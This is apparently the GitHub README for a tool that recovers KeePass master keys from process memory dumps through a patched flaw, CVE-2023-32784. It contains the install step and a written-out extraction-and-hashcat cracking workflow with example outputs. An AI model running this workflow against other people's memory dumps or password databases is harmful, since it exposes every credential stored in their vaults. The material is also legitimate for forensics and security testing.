 # KeePass Memory Dump Extractor

**Find and collect parts of a Keepass master key to recover it in plain text from a memory dump**

While typing out the master key to unlock a KeePass database, the value of the input box is stored in memory. While it is visually hidden using '●' characters, the last character was briefly visible in memory, and keeps being stored there ([CVE-2023-3278](https://nvd.nist.gov/vuln/detail/CVE-2023-32784), fixed in [KeePass 2.54](https://keepass.info/news/n230603_2.54.html) released June 3rd 2023). That makes it possible to find strings like the following in the memory dump:

```
s
●e
●●c
●●●r
●●●●e
●●●●●t
```

This tool finds such strings and **combines them** into one password. Due to noise or retyping in the memory dump it will also print some false positives (especially for earlier characters), but with brute-forcing or a bit of common sense these should be easy to filter out. 

It differes from existing tools (like [`keepass-password-dumper`](https://github.com/vdohney/keepass-password-dumper) or [`keepass-dump-masterkey`](https://github.com/matro7sh/keepass-dump-masterkey)) in the various useful output formats, and its ability to extract non-ascii character in UTF16 encoding. If the master key uses unicode characters like 'ø', this tool will be able to find those too (iykyk). 

## Installation

```Bash
cargo install keepass-dump-extractor
```

Or **download** and **extract** a pre-compiled binary from the [Releases](https://github.com/JorianWoltjer/keepass-dump-extractor/releases) page. 

## Common usage

This attack requires a memory dump of the KeePass process, and can generate all possible master keys to unlock the keepass database file (`.kdbx`). With the following commands, you can generate a wordlist, extract the hash from the database, and crack it with the wordlist:

```bash
keepass-dump-extractor KeePassDumpFull.dmp -f all > wordlist.txt

keepass2john passwords.kdbx > passwords.kdbx.hash
hashcat -m 13400 --username passwords.kdbx.hash wordlist.txt
```

Within a few seconds you should be able to find the password with this method, if most of the typed master key was inside of the memory dump. For more complex cases where there is limited information however, some different [output formats](#output-formats) might allow you to manually find what fits. 

## Output Formats

The `-f` (`--format`) option allows you to choose an output format that fits your use case the best. Here are its possible values:

> **Warning**: The following output examples were articicially made clearer by *adding a first charcter*, but in reality, the first character cannot be recovered because it not easily recognizable by a prefixed '●' in the memory dump.

#### (default) `found`: Directly print all hints about the password

Deduplicate and order unknowns by number of occurences, so the first character will likely be the correct one.  
For example:

```
s
●e
●3
●●c
●●●r
●●●●e
●●●●3
●●●●●t
```

#### `gaps`: Summarize the hints into the full size, leaving gaps for unknown characters

Group positions together to permute one position at a time. Ordered by number of occurences, so the first character will likely be the correct one. Useful for manually comparing what letter fits best in between known letters.  
For example:

```
secr●t
s3cr●t
s●cret
s●cr3t
```

#### `all`: Print all possible permutations of the password

Using the unknown characters, it generates the "cartesian product" meaning all possible passwords are output. This is useful for generating a wordlist for cracking tools like hashcat.  
For example:

```
secret
s3cret
secr3t
secr3t
```

#### `raw`: Write the raw results with all found information

Print the raw results as this tool parsed them, useful for scripts. It is also the only way to view how many times a character occured at that position in the memory dump, normally this is only seen in the order.  
For example:

```
10	0	s
10	1	e
2	1	3
10	2	c
10	3	r
1	4	3
10	4	e
10	5	t
```
